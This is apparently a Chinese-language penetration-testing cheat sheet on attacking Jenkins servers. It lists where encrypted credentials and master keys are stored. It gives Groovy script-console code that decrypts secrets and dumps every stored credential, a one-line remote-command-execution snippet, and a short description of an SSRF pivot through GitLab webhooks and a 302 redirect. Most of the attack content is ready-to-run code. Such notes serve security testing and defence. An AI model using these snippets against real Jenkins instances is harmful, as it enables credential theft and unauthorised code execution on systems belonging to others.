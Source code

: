 # Jenkins

## Credentials凭据

Jenkins 将加密凭证存储在`credentials.xml`文件或`config.xml`. 要解密它们，您需要`master.key`和`hudson.util.Secret`文件。

所有文件都位于 Jenkins 主目录中：

```
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```



可以使用工具https://github.com/hoto/jenkins-credentials-decryptor。

如果有script console，也可以利用script console解密：

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))

com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```



## Script Console

位于`/script`。获得可以执行script console的用户权限的时候，可以在这里执行Groovy脚本：

![image-20231123155434585](README.assets/image-20231123155434585.png)



**RCE：**

```groovy
println "whoami".execute().text
```



**解密凭据：**

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```



也可以利用下面的命令解析：

```groovy
com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```

## attacked by webhook

通过gitlab的webhook访问自己设置的302跳转的服务器将post请求变成get请求后打内网的jenkins。

## 参考

https://www.freebuf.com/articles/web/376186.html